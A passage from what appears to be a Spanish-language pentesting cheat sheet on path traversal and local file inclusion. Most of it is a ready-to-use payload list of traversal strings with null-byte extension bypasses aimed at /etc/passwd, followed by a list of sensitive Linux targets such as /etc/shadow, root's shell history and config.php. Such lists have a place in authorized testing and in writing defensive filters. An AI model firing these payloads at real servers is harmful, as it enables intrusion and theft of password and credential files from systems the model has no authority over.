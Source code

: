 ```bash
file://../../../../../../../etc/passwd%00.svg
file://../../../../../../../../etc/passwd%00.svg
file://../../../../../../../../../etc/passwd%00.svg
file://../../../../../../../../../../etc/passwd%00.svg
file://../../../../../../../../../../../etc/passwd%00.svg
file://../../../../../../../../../../../../etc/passwd%00.svg
file://../../../../../../../../../../../../../etc/passwd%00.svg
file://../../../../../../../../../../../../../../etc/passwd%00.svg
file://../../../../../../../../../../../../../../../etc/passwd%00.svg
../etc/passwd%00.gif
../../etc/passwd%00.gif
../../../etc/passwd%00.gif
../../../../etc/passwd%00.gif
../../../../../etc/passwd%00.gif
../../../../../../etc/passwd%00.gif
../../../../../../../etc/passwd%00.gif
../../../../../../../../etc/passwd%00.gif
../../../../../../../../../etc/passwd%00.gif
../../../../../../../../../../etc/passwd%00.gif
../../../../../../../../../../../etc/passwd%00.gif
../../../../../../../../../../../../etc/passwd%00.gif
../../../../../../../../../../../../../etc/passwd%00.gif
../../../../../../../../../../../../../../etc/passwd%00.gif
../../../../../../../../../../../../../../../etc/passwd%00.gif
file:///etc/passwd%00.gif
file://../etc/passwd%00.gif
file://../../etc/passwd%00.gif
file://../../../etc/passwd%00.gif
file://../../../../etc/passwd%00.gif
file://../../../../../etc/passwd%00.gif
file://../../../../../../etc/passwd%00.gif
file://../../../../../../../etc/passwd%00.gif
file://../../../../../../../../etc/passwd%00.gif
file://../../../../../../../../../etc/passwd%00.gif
file://../../../../../../../../../../etc/passwd%00.gif
file://../../../../../../../../../../../etc/passwd%00.gif
file://../../../../../../../../../../../../etc/passwd%00.gif
file://../../../../../../../../../../../../../etc/passwd%00.gif
file://../../../../../../../../../../../../../../etc/passwd%00.gif
file://../../../../../../../../../../../../../../../etc/passwd%00.gif
```

## ARCHIVOS POTENCIALES

Recursos interesantes siempre a mirar son los siguientes:

**LINUX**

```bash
/etc/issue 
/etc/motd 
/etc/passwd 
/etc/group 
/etc/resolv.conf
/etc/shadow
/home/[USERNAME]/.bash_history o .profile
~/.bash_history o .profile
$USER/.bash_history o .profile
/root/.bash_history o .profile
/etc/mtab  
/etc/inetd.conf  
/var/log/dmessage
.htaccess
config.php
```